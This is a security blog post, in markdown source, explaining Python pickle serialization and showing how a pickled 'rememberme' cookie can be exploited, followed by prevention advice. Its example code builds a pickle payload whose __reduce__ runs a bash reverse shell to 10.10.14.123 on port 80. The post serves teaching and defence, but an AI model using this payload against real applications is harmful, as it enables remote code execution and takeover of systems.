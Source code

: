 ```yaml
---
layout: post
title: "Deserialization Attack With Pickle"
subtitle: "And a practical use-case"
date: 2022-04-26 09:00:00 -0400
background: '/img/bg-about.jpg'
---
```

# Deserialization Attack Using Python's Pickle Module

![python-pickle-logo.png](/img/posts/serialization-pickle/python-pickle-800x200.png)

## Serialization explained

Serialization is a process of converting an object into a stream of bytes to store the object or transmit it to memory, a database, or a file.
 
![packing-serialization](/img/posts/serialization-pickle/c-sharp-serialization.png)
 
This is done for a variety of reasons, some of them being :

-Persistence: storing an object in its current state for later retrieval; eg. App memory gets cleared from RAM upon exit, but the application has serialized and saved the objects to disk before it exited - so it can easily retrieve them later

-Ease of communication: two machines running the same code can use serialized objects for communication - one machine can build an object and serialize it and then send it over to the other machine

-Network transmission: serialized objects are used by web applications to ensure faster data transmission and integrity

## Python's pickle module

The Pickle module is native to Python, and "Pickling" is the process where a Python object is converted into a byte stream, and "Depickling" is the opposite - where a byte stream is converted back to an object.

## Practical use-case

Consider a web application which uses pickled data as the cookie value.
  
![request-burp](/img/posts/serialization-pickle/request.png)

How can we guess this is pickled data? By decoding the "rememberme" cookie value, its visible that it looks like a pickled value:
 
![rememberme-cookie-value](/img/posts/serialization-pickle/rememberme-cookie-value.png)
 
We can now generate our pickled object to get code execution. This is a sample python code which we can use:
```
import cPickle
import os
class exploit(object):
  def __reduce__(self):
    return (os.system,("/bin/bash -i >& /dev/tcp/10.10.14.123/80 0>&1",))
e = exploit()
print cPickle.dumps(e)
```
Note the result when running the code :
  
![pickled-object](/img/posts/serialization-pickle/pickled-object.png)
 
Since this object is being used by the web application, to ensure data integrity - it is base64 encoded:
  
![b64-pickled_object](/img/posts/serialization-pickle/b64-pickled_object.png)
  
Once this is done we can simply set up our listener and paste the b64 payload into the "rememberme" cookie value and after sending the request it will result in code execution - and in this case a reverse shell.

## Prevention
It is widely considered that unserializing data from an untrusted source or giving the users ability control over the objects is a bad idea.

The pickle module is NOT intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

If the application needs to ensure that the data has not been tampered with - consider using HMAC (Hash-based Message Authentication Code) - which is available as a separate Python module.